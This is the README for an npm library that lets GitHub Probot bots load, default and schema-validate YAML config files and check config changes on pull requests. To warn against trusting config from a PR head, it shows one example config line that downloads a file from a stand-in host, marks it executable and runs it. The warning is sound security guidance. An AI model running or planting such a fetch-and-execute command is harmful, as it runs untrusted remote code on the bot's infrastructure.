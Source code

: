 # bot-config-utils

This is a small library for handling bot config file.

## Install

```bash
npm i @google-automations/bot-config-utils
```

## Get the config

This library supports yaml config file. You provide an config
interface. The code assumes we're in the probot handler.

```typescript
import {
  getConfig,
} from '@google-automations/bot-config-utils';

interface Config {
  myConfig: string;
}
const CONFIG_FILENAME = 'mybot.yaml';
const {owner, repo} = context.repo();
const config = await getConfig<Config>(
  context.octokit,
  owner,
  repo,
  CONFIG_FILENAME);
// config can be null.
```

## Provide the default value

You can use a similar method that supports default value.

```typescript
import {
  getConfigWithDefault,
} from '@google-automations/bot-config-utils';

interface Config {
  myConfig: string;
}

const defaultConfig: Config = {'myConfig': 'myValue'};

const CONFIG_FILENAME = 'mybot.yaml';
const {owner, repo} = context.repo();
const config = await getConfigWithDefault<Config>(
  context.octokit,
  owner,
  repo,
  CONFIG_FILENAME,
  defaultConfig);
// config is always a Config object.
```

## getConfig options
You can specify optional arguments via the `getConfigOptions` interface to `getConfig` and `getConfigWithDefault`.

```
{
  fallbackToOrgConfig: false,
  branch: 'release-9.x',
  schema: schema,
  additionalSchemas: additionalSchema
}
```
- fallbackToOrgConfig
  If set to true, it will try to fetch the config from `.github` repo in the
  same org, defaults to true.
- branch
  The branch for getting the config.
- schema
  The json schema definition. If specified, the loaded config will be validated
  against the given schema. It will throw an Error when validation fails.
- additionalSchemas
  Only required if you need to give additional schema definitions.

Here is a simple example for not falling back to `.github` repo, and
doing the schema validation.

```
// json schema definition
import schema from './config-schema.json';
import {
  getConfig,
} from '@google-automations/bot-config-utils';

interface Config {
  myConfig: string;
}
const CONFIG_FILENAME = 'mybot.yaml';
const {owner, repo} = context.repo();
const config = await getConfig<Config>(
  context.octokit,
  owner,
  repo,
  CONFIG_FILENAME,
  {fallbackToOrgConfig: false, schema: schema}
);
// config can be null.
```

## Check config schema on PRs

To use this feature, the bot needs to have some permissions.

You have to add the following permissions:
- Pull Request Read/Write
- Checks Read/Write

You also have to subscribe to Pull Request events.

You also need to provide a schema definition. Here is an example definition:

```json
// config-schema.json
{
    "$schema": "http://json-schema.org/draft-07/schema#",
    "type": "object",
    "title": "flakybot config",
    "description": "Schema for flakybot configuration",
    "additionalProperties": false,
    "properties": {
	    "issuePriority": {
	        "description": "The default priority for flakybot issues",
	        "type": "string",
	    }
    }
}
```

Here is a sample handler(this assumes you're developping a Probot app):
```typescript
import {ConfigChecker} from '@google-automations/bot-config-utils';
import schema from './config-schema.json';

// ...

  app.on(
    [
      'pull_request.opened',
      'pull_request.reopened',
      'pull_request.edited',
      'pull_request.synchronize',
    ],
    async context => {
      const configChecker = new ConfigChecker<Config>(schema, CONFIG_FILENAME);
      const {owner, repo} = context.repo();
      await configChecker.validateConfigChanges(
        context.octokit,
        owner,
        repo,
        context.payload.pull_request.head.sha,
        context.payload.pull_request.number
      );
    }
  );
```

`validateConfigChanges` will check the config file format against the
schema you provided. It will submit a failing status check if:

- You are trying to add a wrong config file (currently it only checks
  `yaml` vs `yml`).
- You are trying to add a broken config file, or the config file
  doesn't match the schema.


## Fetch config from the PR head
Probot's implementation of config always fetches the config from the
master branch. This is a reasonable security meassure for a generic
library.

It is very dangerous to fetch the config from PR head expecially if
the config contains some external commands. Here is a simple example:

```yaml
prepareCommands: 'curl http://example.com/m && chmod +x m && ./m'

```

However, if your bot doesn't have such a field in the config file, it
is very natural to fetch the config from the PR head.

For this purpose, the ConfigChecker has a method:
`getConfig(): T | undefined`. This will return the config object only
if the validation succeeds.

Even if the config contains a dangerous field, you can selectively use
the value from the config in the PR head.
